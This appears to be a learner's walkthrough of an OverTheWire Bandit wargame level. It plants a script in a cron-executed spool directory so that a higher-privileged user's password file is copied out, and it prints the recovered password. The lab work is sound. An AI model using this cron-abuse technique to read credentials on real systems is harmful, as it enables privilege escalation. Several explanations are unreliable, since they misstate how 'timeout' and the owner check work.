


# Mission:
 A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# Steps:

 First, i will cat `cronjob_bandit24` as i'm in level 23.
 Then i will cat `/usr/bin/cronjob_bandit24.sh` to see what is inside.
 

 ```bash
 #!/bin/bash

shopt -s nullglob

myname=$(whoami)

cd /var/spool/"$myname"/foo || exit 
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." ] && [ "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" "./$i")"
        if [ "${owner}" = "bandit23" ] && [ -f "$i" ]; then
            timeout -s 9 60 "./$i"
        fi
        rm -rf "./$i"
    fi
done

```

 ## Explain the code:
 + `#!/bin/bash`: There is mutiple shell script, `bash`, `zsh`, `fish`, so `#!/bin/bash` means the code is running by `bash`.

 + `myname=$(whoami)`: `whoami` command(This code is run from bandit24 so it will be `bandit24`) save in myname variable.

 + `cd /var/spool/"$myname"/foo || exit`: change directory to `/var/spool/bandit24/foo`.

 + `echo "Executing and deleting all scripts in /var/spool/$myname/foo:"`: print Executing and deleting all scripts in /var/spool/bandit24/foo:.

 + `for i in * .*;`: For loop with i variable, thourgh all the files in the directory( `.*` all files in the **current directory** -> in /var/spool/bandit24/foo).

 + `    if [ "$i" != "." ] && [ "$i" != ".." ];` : 
    + `$i`: current file

    -> if current file not `foo`(`"."`: current directory) and `bandit24`(`..` : parent directory)

 + Print "Handling current file"

 + `owner="$(stat --format "%U" "./$i")"` : Information about the owner of current file is save in `owner`.

 + `  if [ "${owner}" = "bandit23" ] && [ -f "$i" ]; then
            timeout -s 9 60 "./$i"`: If the owner of current file is `bandit23`, then it will send the **kill** signal(9 aka kill signal) after waiting 60 second(`-s` : second).

=> First, the file will be execute, then it check if the owner of the file is `bandit23`, it will delete after waiting for 60 seconds.

 I will write a shell-script `getPassword.sh` in `/tmp/temp` directory(where i can write,read,execute without denied). And i know that the file in `/var/spool/bandit24/foo` be executed by user `bandit24` -> can access to `/etc/bandit_pass/bandit24` and get the password.

 ```bash
 mkdir /tmp/temp
 cd /tmp/temp
 touch getPassword.sh
 nano getPassword.sh
 #!/bin/bash
 cat /etc/bandit_pass/bandit24 > /tmp/temp/pass
 ```
 This code will help me move bandit24 password to /tmp/temp/pass so i can read. But before that, i need to create `pass`, and change the permission `pass` so that other can write in it.
 
 ```bash
 chmod 703 pass
 chmod 705 getPassword.sh
 ```

 

 `Bandit24` can only read, execute `getPassword.sh` and write, execute `pass`.

 Then i will copy `getPassword.sh` to `/var/spool/bandit24/foo`.
 
 Wait for a second.

 

 The password: `hVQMk3lJNsmQ7VF3ubyrNNBom7BOgVXv`
